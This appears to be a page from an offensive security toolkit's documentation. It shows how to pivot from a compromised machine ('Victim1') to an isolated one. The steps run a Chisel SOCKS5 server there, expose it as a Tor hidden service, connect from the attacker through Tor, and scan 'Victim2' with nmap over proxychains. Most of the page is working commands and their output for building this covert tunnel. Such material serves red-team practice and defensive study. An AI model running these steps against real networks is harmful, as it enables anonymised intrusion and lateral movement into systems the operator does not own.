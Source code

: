 # Pivoting with hidden-portforwarding and Chisel

At this point, Victim1 is already compromised. In order to reach Victim2 \(the **network-isolated machine**\), we will use Victim1 as a pivot. To achieve our goal, we will use **hidden-portforwarding** together with [**Chisel**](https://github.com/jpillora/chisel).

As shown in the following illustration, the victim will publish a Hidden Service that routes TCP traffic to the Chisel Server \(running in the pivot\). Once the Chisel server is reached from the Chisel client, an **SOCKS5+HTTP tunnel** is established so that we can send packets through it.

![Hidden Port Forwarding for Chisel tunnel](https://atorrescogollo.github.io/geekdoc/posts/static/offensive-tor-toolkit/04_hidden-portforwarding.png)

## 1. Run Chisel Server in the pivot

As described in the [Chisel documentation](https://github.com/jpillora/chisel#socks5-guide), we can **start the Chisel server** as a SOCKS5 proxy by executing the following command:

```text
[victim1]$ ./chisel server -p 1111 --socks5 &
```

Now Chisel server is ready to get connections from the Chisel client.

## 2. Chisel Server reachable from Tor

In order to reach the Chisel Server from the Chisel Client preserving the anonimity, we will use **hidden-portforwarding**. This tool will allow us to **redirect TCP packets** from a new Hidden Service to the TCP port where Chisel Server is listening.

The tool will need to receive:

1\) the `-data-dir` parameter to preserve the onion address,

2\) the `-hidden-port` parameter with the port you want for the Hidden Service and

3\) the  `-forward` parameter with the TCP socket you want to send traffix to.

```text
[victim1]$ ./hidden-portforwarding -data-dir /tmp/pf-datadir \
    -hidden-port 9001 -forward 127.0.0.1:1111 
...
Forwarding xa7ljkruk7lra4el.onion:9001 -> 127.0.0.1:1111
```

{% hint style="warning" %}
Using **-data-dir** parameter is specially important here. It will contain the keys for the Hidden Service so that the onion address doesn't change. If not specified, each execution will create a different Hidden Service.
{% endhint %}

## 3. Chisel tunnel establishment

Now that Chisel Server is reachable though the `hidden-portforwarding` tool, we will connect from Chisel Client. We can set the `--proxy` parameter to use the Tor instance proxy:

```text
[attacker]$ alias chisel-client-tor='chisel client --proxy socks://127.0.0.1:9050'
[attacker]$ chisel-client-tor xa7ljkruk7lra4el.onion:9001 socks &
```

Now, Chisel Client is serving a SOCKS5 proxy on `1080` port that will route traffic to the Chisel Server:

```text
[attacker]$ ss -lntp | grep chisel
LISTEN 0   4096   127.0.0.1:1080   0.0.0.0:*  users:(("chisel",pid=3730,fd=3))
```

## 4. Send traffic through the tunnel

In order to connect to the SOCKS5 proxy that Chisel Client serves, we will use [proxychains4](https://github.com/rofl0r/proxychains-ng):

```text
[attacker]$ alias pc4='proxychains4 -f /etc/proxychains4.conf'
[attacker]$ cat /etc/proxychains4.conf
...
[ProxyList]
socks5  127.0.0.1 1080
```

Now, let's try a simple port scanning against Victim2:

```text
[attacker]$ pc4 nmap -sT -Pn -n -sV -sC -p80,22,25,3000 victim2
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.4.43 (() PHP/5.4.16)
3000/tcp open  http    Mongoose httpd
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 230.37 seconds
```

{% hint style="warning" %}
Every packet will go through a SOCKS5 proxy over the Tor network. **Traffic intensive tools**, such as nmap, **will decrease their performance significantly due to the high latency**. You should try to run this tools directly from pivot; for example, by using **static compiled** versions of these tools.
{% endhint %}




